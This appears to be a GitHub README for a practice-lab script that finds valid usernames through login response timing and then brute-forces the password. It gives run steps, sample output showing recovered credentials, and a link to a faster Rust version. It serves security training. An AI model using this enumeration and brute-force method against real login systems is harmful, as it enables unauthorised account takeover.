 # Hack Steps
1. Obtain a valid username via response timing
2. Brute force password of that valid username

# Run Script
1. change the URL of the lab
2. change the PATH for your usernames list
3. change the PATH for you passwords list
4. Start script
```
~$ python username_enumeration_via_response_timing.py
```

# Expected Output
```
[#] Enumerate usernames..
Elapsed: 0 minutes || Failed: 0 || Trying (6/101): adam                                              
[#] Brute forcing password..
✅ Valid user: adam
Elapsed: 0 minutes || Failed: 0 || Trying (74/102): joshua                                            
✅ Login successfully:  username: adam, password: joshua
✅ Finished in: 0 minutes
Results was saved to: results
Failed users count: 0
Failed users: [  ]
Failed passwords count: 0
Failed passwords: [  ]
```

# Want to go faster?
Check the [Rust script](https://github.com/elqalawii/portswigger_labs_with_rust/tree/main/Authentication/username_enumeration_via_response_timing) for this lab in both single-threaded and multi-threaded approaches.
